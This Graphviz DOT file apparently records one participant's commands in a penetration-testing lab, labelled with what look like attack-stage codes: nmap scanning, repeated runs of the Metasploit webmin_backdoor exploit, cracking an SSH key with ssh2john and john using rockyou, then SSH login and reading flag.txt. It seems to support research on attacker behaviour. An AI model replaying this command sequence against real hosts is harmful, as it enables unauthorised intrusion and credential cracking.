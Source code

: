 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="netstat -lpn U"]
	2 [label="netstat -lpn  U"]
	3 [label="netstat -na U"]
	4 [label="netstat -sV U"]
	5 [label="man netstat U"]
	6 [label="touch webmin.sh U"]
	7 [label="nano webmin.sh U"]
	8 [label="chmod +x webmin.sh A15 "]
	9 [label="./webmin.sh U"]
	10 [label="perl --version U"]
	11 [label="ruby --version U"]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	15 [label="./47230.rb U"]
	16 [label="./webmin.sh https://localhost:10000 U"]
	17 [label="./webmin.sh 100.100.100.5:10000 U"]
	18 [label="./webmin.sh 100.100.100.5 U"]
	19 [label="./webmin.sh 172.18.1.1:10000 U"]
	20 [label="./webmin.sh 172.18.1.1 U"]
	21 [label="metasploit U"]
	22 [label="msfconsole M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit M8 "]
	27 [label="show options M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	29 [label="show options M5 "]
	30 [label="set RHOSTS 172.18.1.1 M6 "]
	31 [label="exploit M8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="exploit M8 "]
	35 [label="set TARGET 0 A6 "]
	36 [label="exploit M8 "]
	37 [label="set RHOSTS 172.18.1.5 M6 "]
	38 [label="exploit M8 "]
	39 [label="set LHOST 0.0.0.0 M6 "]
	40 [label="exploit M8 "]
	41 [label="show options M5 "]
	42 [label="set TARGETURI /root/ A6 "]
	43 [label="exploit M8 "]
	44 [label="set TARGETURI / A6 "]
	45 [label="show options M5 "]
	46 [label="exploit M8 "]
	47 [label="set LHOST 127.0.0.1 M6 "]
	48 [label="exploit M8 "]
	49 [label="ifconfig U"]
	50 [label="ifconfig U"]
	51 [label="set LHOST 192.168.131.153 M6 "]
	52 [label="exploit M8 "]
	53 [label="show options M5 "]
	54 [label="set LHOST 10.1.135.83 M6 "]
	55 [label="exploit M8 "]
	56 [label="check A7 "]
	57 [label="show options M5 "]
	58 [label="exploit M8 "]
	59 [label="netstat -lpn U"]
	60 [label="clear U"]
	61 [label="netstat -a U"]
	62 [label="netstat -na U"]
	63 [label="netstat -a U"]
	64 [label="netstat -a U"]
	65 [label="msfconsole M2 "]
	66 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	67 [label="show options M5 "]
	68 [label="ifconfig U"]
	69 [label="set LHOST 10.1.135.83 M6 "]
	70 [label="netstat -a U"]
	71 [label="set RHOST 172.168.1.5 A6 "]
	72 [label="exploit M8 "]
	73 [label="show options M5 "]
	74 [label="set TARGET 0 A6 "]
	75 [label="exploit M8 "]
	76 [label="set RHOST 192.168.1.5 A6 "]
	77 [label="exploit M8 "]
	78 [label="set RHOST 172.18.1.5 A6 "]
	79 [label="exploit M8 "]
	80 [label="show options M5 "]
	81 [label="set TARGET 0 A6 "]
	82 [label="exploit M8 "]
	83 [label="show options M5 "]
	84 [label="set TARGET 0 A6 "]
	85 [label="exploit M8 "]
	86 [label="set TARGET 0 A6 "]
	87 [label="pwd U"]
	88 [label="exploit M8 "]
	89 [label="set TARGET 0 A6 "]
	90 [label="exploit M8 "]
	91 [label="set TARGET 0 A6 "]
	92 [label="touch key.txt U"]
	93 [label="cd U"]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="msfconsole M2 "]
	100 [label="use /exploit/unix/webapp/webmin_backdoor M8 "]
	101 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	102 [label="show options M5 "]
	103 [label="set RHOST 172.18.1.5 A6 "]
	104 [label="set TARGET 0 A6 "]
	105 [label="ifconfig U"]
	106 [label="set LHOST 10.1.135.83 M6 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 M16 "]
	108 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	109 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	110 [label="chmod 777 key.txt A15 "]
	111 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	112 [label="chmod 400 key.txt A15 "]
	113 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	114 [label="ls A10 "]
	115 [label="cd top-secret/ U"]
	116 [label="ls A10 "]
	117 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}
